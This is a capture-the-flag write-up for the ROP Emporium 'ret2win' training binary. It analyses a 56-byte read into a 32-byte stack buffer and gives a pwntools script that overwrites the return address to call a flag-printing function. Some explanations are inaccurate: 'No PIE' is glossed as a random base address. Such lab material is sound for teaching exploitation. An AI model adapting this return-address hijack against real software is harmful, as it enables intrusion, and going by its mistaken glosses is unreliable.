 Ret2win is the first challenge from Rop Emporioum series.
We have to overwrite return address and call the win function to obtain the flag!


# Analyzing
Lets start with the File command.
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Nice! <br>
1. We have a 64 bit executable. <br>
2. It is not stripped (that means that we have the original function names),  <br>
3. And its dynamically linked (that means third party shared objects is not included during compilation and a pointer to these functions is used to access them on runtime when libraries will load up to memory)


Lets continue by checking the protections of the binary running checksec
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   69 Symbols        No    0                               3ret2win
```
1. Stack cookie Not found (canary is a value that is added during compilation procces to prevent buffer overflow attacks.In our case no protection was detected)
2. NX enabled (nx is a mechanism that makes some certain areas of the binary non executable, since it as enabled we cannot overwrite any ip register to jump into our shellcode stored on stack)
3. No pie (A random base address is used for main executable)

Lets continue by disassembling the binary

# main:
```c
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;

```
Not to much code for our main function. just some introduction prints and a call to pwnme() function.

# pwnme:

```
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
  printf("> ");
  read(0, s, 0x38uLL);
  return puts("Thank you!");
```
common sense is that a vulnerability may lives here.
Lets start analyzing each row. <br>

First of all a 32 byte char buffer is allocated on the stack. <br> 
Then some hints is printed into our console and a read 0x38 bytes appear.
What if we try to fit 56 bytes into a 32 byte buffer?

As we know stack grows downwards so our stack frame of this function woulld look like this 
![image](https://github.com/user-attachments/assets/69ecb829-01c2-4078-9ee2-020c12e6f9da)

So writing 56 bytes will completely overwrite the buffer, stacks frame base address and οbviously 
the return address.Thats means that now we can execute whatever we want on the binary. Our goal is obtain the flag. <br>

looking further on the dissasembler a function ret2win is completely what we are looking for 

# ret2win
```
puts("Well done! Here's your flag:");
return system("/bin/cat flag.txt");
```
Gathering all this information, the path we need to follow revealed, <br> 
overwriting the stored ip we can execute ret2win code and trigger system commands.
Since there is no stack cookies or pie, aslr enabled we can grab the hardcoded address and craft our exploit 

# Exploiting
Writing our exploit
```python
from pwn import *

# Set up pwntools for the correct architecture. See `context.binary/arch/bits/endianness` for more
context.binary = elfexe = ELF('./ret2win') #FIXME

target = process([elfexe.path])

payload  = b"A"* 40      # Fill the buffer and overwrite base address 
payload += p64(0x400770) # ret for alignment
payload += p64(0x400756) # Jump to ret2win function

target.sendafter("> ", payload) 
target.interactive()
    
```
We manage to get the flag!
``
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``
